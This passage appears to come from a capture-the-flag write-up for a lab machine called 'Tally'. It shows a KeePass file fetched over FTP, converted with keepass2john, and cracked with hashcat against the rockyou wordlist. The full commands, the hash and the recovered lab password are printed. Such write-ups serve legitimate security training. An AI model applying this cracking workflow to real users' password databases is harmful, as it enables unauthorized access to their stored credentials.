 Let's take that KeePass database and see if we can decipher the password with HashCat; but first we must extract a hash compatible with HashCat, for this we will use a tool called keepass2john from the John The Ripper suite.

Hashcat, is the world’s fastest and most advanced password recovery utility, supporting five unique modes of attack for over 200 highly-optimized hashing algorithms. hashcat currently supports CPUs, GPUs, and other hardware accelerators on Linux, Windows, and OSX, and has facilities to help enable distributed password cracking.  
[Full article in Kali-Linux](https://tools.kali.org/password-attacks/hashcat)  

Jhon The Ripper, is designed to be both feature-rich and fast. It combines several cracking modes in one program and is fully configurable for your particular needs.  
[Full article in Kali-Linux](https://tools.kali.org/password-attacks/john)

```console
ftp> get tim.kdbx
local: tim.kdbx remote: tim.kdbx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2222 bytes received in 0.05 secs (42.3532 kB/s)
```

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/ftp]─[root@Arthorias]─[0]─[3041]
╰─[:)] # keepass2john tim.kdbx > tim.hash
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally/ftp]─[root@Arthorias]─[0]─[3041]
╰─[:)] # cat tim.hash 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

Now that we have our hash we can run against hashcat. 
NOTE: Remove *tim:* from the hash before trying to crack. 
I'm going to use HashCat in Windows, this way I can identify my GPU and the cracking process will be faster.

```console
C:\hashcat-5.1.0> .\hashcat64.exe -m 13400 .\tim.hash .\rockyou.txt
hashcat (v5.1.0) starting...

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger disabled.

Dictionary cache hit:
* Filename..: .\rockyou.txt
* Passwords.: 14343296
* Bytes.....: 139921497
* Keyspace..: 14343296

$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da:simplementeyo

Session..........: hashcat
Status...........: Cracked
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*222*f362b5565b916422607711b54e8d0b...1cd7da
```
